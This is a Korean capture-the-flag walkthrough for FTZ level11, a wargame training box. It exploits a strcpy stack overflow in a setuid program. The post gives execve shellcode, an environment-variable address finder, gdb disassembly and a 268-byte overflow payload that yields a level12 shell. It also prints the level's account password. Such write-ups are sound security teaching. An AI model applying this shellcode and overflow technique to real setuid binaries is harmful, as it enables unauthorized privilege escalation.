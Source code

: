 ```yaml
---
title: "[FTZ] level11 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level11 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level11 풀이
{: .notice--warning}


# 문제

계정 : level11/what!@#$?

**hint**
```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

```

# 풀이

bof 취약점이 존재합니다. 쉘 코드를 작성하여 쉘 코드 주소로 ret 주소를 덮어 써서 권한을 탈취합니다.

쉘 코드는 구글링 해서 찾았습니다. 

```
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
```

## 환경변수
쉘 코드를 환경변수에 등록하여 리턴 주소를 환경변수로 바꾸는 방법입니다. 

1) 환경변수에 shell 코드 등록하기

```sh
[level11@ftz level11]$ export sh=$(python -c 'print("\x90"*10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
```

![image](https://user-images.githubusercontent.com/33647663/167302401-ee84a3d6-1b23-49a2-9645-c852c875921d.png)

2) 환경변수의 메모리 주소 알아내기

환경변수의 메모리 주소는 다음과 같이 코드를 작성하여 알아냅니다.

**env.c**

```c
#include <stdio.h>

int main(int argc, char* argv[]){
    char *addr;
    addr = (char*)getenv(argv[1]);
    printf("located at %p\n",addr);
    return 0;
}
```

```sh
[level11@ftz tmp]$ gcc -o env env.c
[level11@ftz tmp]$ ./env sh
located at 0xbfffff2f
```

3) bof 취약점을 이용하여 ret 주소 변경
   
```sh
[level11@ftz level11]$ gdb -q attackme
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    esp,0x10
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
End of assembler dump.
(gdb)
```

스택의 구조는 다음과 같습니다.

```md
str 256 byte
dummy 8 byte
ebp 4 byte
ret 4 byte
```

따라서 268 바이트의 더미를 넣어주고, 환경변수의 주소를 넣어주면 됩니다.

```sh
[level11@ftz level11]$ ./attackme $(python -c 'print("A"*268+"\x2f\xff\xff\xbf")')
sh-2.05b$ id
uid=3092(level12) gid=3091(level11) groups=3091(level11)
sh-2.05b$
```

